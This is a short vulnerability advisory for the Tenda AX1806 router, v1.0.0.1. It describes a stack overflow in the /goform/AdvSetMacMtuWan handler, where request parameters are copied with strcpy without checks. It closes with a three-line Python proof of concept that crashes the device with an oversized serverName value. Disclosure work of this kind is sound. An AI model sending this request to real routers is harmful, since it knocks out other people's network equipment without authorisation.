 Affect device: Tenda Router AX1806 v1.0.0.1(https://www.tenda.com.cn/download/detail-3306.html) 

Vulnerability Type: Stack overflow 

Impact: Denial of Service(DoS) 

# Vulnerability description 
The vulnerability lies in the `/goform/AdvSetMacMtuWan` page which influences the lastest version of Tenda Router AX1806 v1.0.0.1: 

The stack overflow vulnerability is in the in the `strcpy` function in the `sub_65A28` function in the `fromAdvSetMacMtuWan` function
![](./img/1.png)
![](./img/2.png)
When picture 1 executes the `GetValue("wan.connecttype", v6)` function, the v6 value is 2 and enter the `sub_65A28` function in picture 2 

In picture 2,the v2 variable is obtained directly from the http request parameter `serviceName`ProcinceCode and The v3 variable is obtained directly from the http request parameter `serverName`ProcinceCode.Then they will be  spliced to stack by function  `strcpy` without any security check,which causes stack overflow. 

by POST the page `/goform/AdvSetMacMtuWan` with long Code, the attacker can easily perform a
Denial of Service(DoS). 

# POC
```python
import requests

data = {b"serverName": b'a'*0x800}

res = requests.post("http://10.10.10.1/goform/AdvSetMacMtuWan", data=data)
```